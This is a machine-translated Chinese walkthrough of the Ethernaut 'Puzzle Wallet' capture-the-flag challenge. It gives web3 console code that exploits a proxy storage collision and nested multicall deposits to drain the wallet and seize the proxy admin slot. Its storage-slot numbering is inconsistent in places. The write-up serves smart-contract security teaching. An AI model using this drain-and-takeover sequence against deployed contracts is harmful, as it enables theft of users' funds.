

# 解决以太 24-难题钱包

> 原文：<https://medium.com/coinmonks/solving-ethernaut-24-puzzle-wallet-fdf3be4634c4?source=collection_archive---------19----------------------->


Photo by [Clint Patterson](https://unsplash.com/@cbpsc1?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)

 [## 以太人

ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/) 

在这个挑战中，我们再次面临一个利用 [**委派**](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-and-libraries) 的合同。这一次它被用于一种被称为 [**的可升级代理**](https://docs.soliditylang.org/en/latest/security-considerations.html#authorized-proxies) **。**

可升级代理的概念是基于部署一个代理契约，它可以在任何时候升级。在这种情况下，升级意味着改变契约的逻辑。这使得开发人员能够在代码部署后更改代码，如果您需要修复合同中的 bug，这是一个非常好的特性。许多 dApps 以这种方式使用代理来保留修复的可能性，甚至在黑客攻击和其他攻击后收回资金。然而，这也意味着开发者拥有绝对的控制权，如果他们想的话，他们可以更新他们的 dApp 来耗尽存放在那里的任何用户资金。所以虽然在大多数情况下…

这个挑战的目标是通过将代理中的管理地址声明为自己的地址来获得对合同的控制权。

代理及其实现契约的定义如下:

让我们从检查代理合同开始。这个契约使用了标准的 OpenZeppelin 代理实现，但是我们应该注意的是，这个契约还存储了两个存储变量——“pending Admin”和“admin”。“admin”变量是我们想要覆盖的变量，它被放在编号为 2 的 [**存储槽**](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html) 中。

> 如果你不知道变量在存储器中是如何处理的，你可以在这里阅读。

还有一个公共函数允许我们设置“pendingAdmin”变量:

```
function proposeNewAdmin(address _newAdmin) external { pendingAdmin = _newAdmin;}
```

这意味着任何人都可以在任何时候覆盖 1 号存储槽，我们应该注意这一点。其余的函数由“onlyAdmin”子句保护，所以我们必须在与这些函数交互之前劫持契约。

让我们来看看 PuzzleWallet 合同。这将是我们代理的实现契约，它包含通过函数“execute”和“multicall”存放以太网和执行任意事务的方法。不幸的是，似乎这个契约中的所有方法都受到白名单的保护，或者检查是否是契约所有者。但是因为我们知道我们的代理使用 delegatecall，所以让我们看一下变量布局，看看我们是否能发现一些弱点:

```
address public owner;uint256 public maxBalance;mapping(address => bool) public whitelisted;mapping(address => uint256) public balances;
```

在存储插槽 0 中，我们有所有者，在存储插槽 1 中，我们有“最大余额”。如果您还记得我们的代理，它有一个设置“pendingAdmin”的公共方法，这个方法被放在存储槽 0 中。这意味着**任何人**都可以调用“proposeNewAdmin”函数，并有效地设置我们的实现契约的所有者！

让我们通过使用控制台来检查谁是当前的所有者:


然后让我们尝试用我们自己的地址调用“proposeNewAdmin”函数:

```
await web3.eth.sendTransaction({
 from:(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: contract.address, 
    data: web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)") 
 + web3.eth.abi.encodeParameter("address",(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0]).replace('0x', '')
})
```

这应该建议您作为新管理员使用自己的钱包地址，所以现在让我们检查一下谁是合同的所有者:


The result should be your own wallet address now.

因为我们现在是所有者，它允许我们将自己列入白名单，并获得对钱包其余功能的访问权限，所以让我们这样做吧！

```
contract.addToWhitelist((await window.ethereum.request({ method: 'eth_requestAccounts' }))[0])
```

这很容易，但是我们的目标是榨干钱包里的钱，仅仅成为钱包的主人是不够的。我们需要更多地检查一下钱包的功能。有一个有趣的功能叫做“multicall ”,它允许白名单钱包在一次交易中进行多次呼叫。通常这是钱包中一个非常有用的功能，因为它可以让主人在复杂的交易中节省大量的汽油。但在这种情况下，有一个大问题。



该方法为每个要调用的函数获取一个调用数据数组，然后进行迭代，直到使用 delegatecall 调用了所有内容。首先要注意的是，这个方法通过检查是否已经被调用来防止自己多次调用“存款”。不幸的是，它不能防止多次调用自己。这意味着您可以指定“multicall”来调用“multicall ”,因为用于跟踪存款函数的 bool 是在方法本身的范围内定义的，所以我们可以利用它来一次又一次地调用“存款”。


通过多次调用存款函数，我们可以有效地增加自己地址的钱包余额。流程如下所示:

“多呼叫”->“存款”->“多呼叫”->“存款”-> …

我们的想法是确保在呼叫“存款”之前呼叫“多呼叫”。为什么这如此糟糕？原因是 delegatecall 具有保存“ [**msg.sender**](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties) ”和“ [**msg.value**](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties) ”的特殊属性。这意味着每次我们调用“存款”函数时，我们都会保存“ [**msg.value**](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties) ”。实际上是将这个值乘以我们重复这个过程的次数。如果我们把所有这些放在一起，它允许我们存入一小笔钱，通过利用这些钱来增加，然后我们可以提取比我们存入的更多的钱。为了在控制台中完成这一点，我们需要正确地对 [**功能和**](https://docs.soliditylang.org/en/v0.8.17/abi-spec.html#abi) 参数进行编码:

```
let depositData = web3.eth.abi.encodeFunctionCall(contract.abi[2], [] )let multicallData = web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositData]])await web3.eth.sendTransaction({
 from:(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: contract.address, 
    data: web3.eth.abi.encodeFunctionCall(contract.abi[6], [[depositData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData, multicallData]]),
 value: await web3.eth.getBalance(contract.address) / 10 
})
```

在上面的示例中，我们以这样的方式对参数进行编码，即“存款”被调用 11 次，并且在同一交易中，我们发送整个钱包余额的 1/10，这意味着我们地址的钱包余额应该等于整个钱包余额。我们可以通过比较我们的内部钱包余额和钱包的总余额来检查这一点:

```
(await contract.balances((await window.ethereum.request({ method: 'eth_requestAccounts' }))[0])).toString() === await web3.eth.getBalance(contract.address)
```

如果返回 true，那么一切都按计划进行。现在最后一步是将钱包中的所有资金提取到我们自己的地址:

```
let executeData = web3.eth.abi.encodeFunctionCall(contract.abi[3], [(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0], await web3.eth.getBalance(contract.address), []] )await web3.eth.sendTransaction({
 from:(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: contract.address, 
    data: executeData 
})
```

现在让我们检查一下钱包余额:

```
await web3.eth.getBalance(contract.address)
```

如果这返回 0，那么你准备好劫持代理合同！

还记得钱包契约里的变量布局吗？

```
address public owner;uint256 public maxBalance;
```

“maxBalance”变量位于存储槽 1 中，这与代理契约中的 admin 是同一个槽。通过设置“maxBalance”变量，我们可以将自己作为管理员插入。因为我们已经完全清空了钱包，所以我们现在可以使用我们自己的地址作为输入来调用“setMaxBalance ”:

```
let callData = web3.eth.abi.encodeFunctionCall(contract.abi[8], [(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0]] )await web3.eth.sendTransaction({
 from:(await window.ethereum.request({ method: 'eth_requestAccounts' }))[0],
    to: contract.address, 
    data: callData 
})
```

您可以使用以下命令检查您确实是新的代理管理员:

```
await web3.eth.getStorageAt(contract.address, 1)
```

别忘了提交！

> 交易新手？试试[加密交易机器人](/coinmonks/crypto-trading-bot-c2ffce8acb2a)或者[复制交易](/coinmonks/top-10-crypto-copy-trading-platforms-for-beginners-d0c37c7d698c)